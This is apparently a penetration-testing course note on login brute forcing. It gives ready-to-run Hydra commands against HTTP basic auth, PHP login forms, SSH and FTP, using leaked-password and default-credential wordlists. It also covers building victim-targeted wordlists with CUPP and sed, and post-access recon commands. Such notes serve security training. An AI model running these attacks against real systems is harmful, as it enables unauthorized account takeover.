 # Login Brute Forcing

1. [Basic HTTP Auth Brute Forcing](#basic-http-auth-brute-forcing)
1. [Web Forms Brute Forcing](#web-forms-brute-forcing)
1. [Service Authentication Attacks](#service-authentication-attacks)

## Basic HTTP Auth Brute Forcing

* Basic HTTP Authentication:

  * uses user ID and password
  * client sends first request without auth info; server's response contains ```WWW-Authenticate``` header field requesting for creds
  * client uses base64 encoding for id and password, sent in Authorization header field

* Types of login brute force attacks:

  * online brute force - attacking live app over network
  * offline brute force - cracking hashes
  * reverse brute force - username brute force or password spraying
  * hybrid brute force - attacking user by customized wordlist

* Default passwords:

  ```shell
  hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
  # -C for combined username and password
  # -s for target port
  # http-get is request-method
  # target path is /
  ```

* Username brute force:

  ```shell
  hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
  # -L for username wordlist
  # -P for password wordlist
  # -u to try all users on each password
  # by default it is each user with all passwords, which will take time
  # -f is to stop after first successful login

  # we can also assign static username using -l
  # and -p for static password
  ```

## Web Forms Brute Forcing

* Key ```http``` modules are ```http[s]-{head|get|post}``` and ```http[s]-post-form``` - the former is for basic HTTP authentication while the latter is for login forms like ```.php``` or ```.aspx```.

  ```shell
  # in case of php forms using POST request
  
  hydra http-post-form -U
  # lists parameters reqd for usage
  # we need URL path, username:password parameters and fail/success login string
  ```

* If we provide 'fail' string, ```hydra``` will run till string is not found in response; in case of 'success', it will run till string is found in response.

* For 'fail', we need to consider something specific, like from the source code of the login page, and feed it to ```hydra``` with other parameters:

  ```"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"```

* Ways to determine login parameters:

  * Developer Tools in browser - in-built Network Tools will show us the sent HTTP requests (Copy POST data) after we try logging in with any creds

  * Burp Suite - we can intercept our login attempt; usually the last string will include the parameters (e.g. - "username=admin&password=admin"). Full target path:

    ```"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"```

* If using a default password wordlist does not work, we should attempt brute force of login form using static usernames (admin, administrator, root, adm, wpadmin, etc.) and a password wordlist:

  ```shell
  hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -f 94.237.63.93 -s 38075 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
  ```

## Service Authentication Attacks

* Personalized wordlists:

  * We can use tools such as ```CUPP``` to create custom password wordlist based on victim's info using ```cupp -i``` command

  * If a password policy is in place, we can remove passwords that don't meet the required conditions:

    ```bash
    sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
    sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
    sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
    ```

  * We can use mangling techniques to create permutations and alterations of our passwords, using tools like ```The Mentalist``` or ```rsmangler```

  * We can also create a custom username wordlist based on victim info - we can use tools like ```Username Anarchy```

* SSH attack:

  ```shell
  hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
  # -t 4 is added for max parallel attempts
  # too many SSH connections can cause issues
  ```

  ```shell
  # once we have SSH access, we can do recon by checking for other users
  ls /home

  # we can check for locally open ports
  netstat -antp | grep -i list
  ```

* FTP attack:

  ```shell
  # if we have SSH access
  # and hydra is locally installed
  hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
  ```
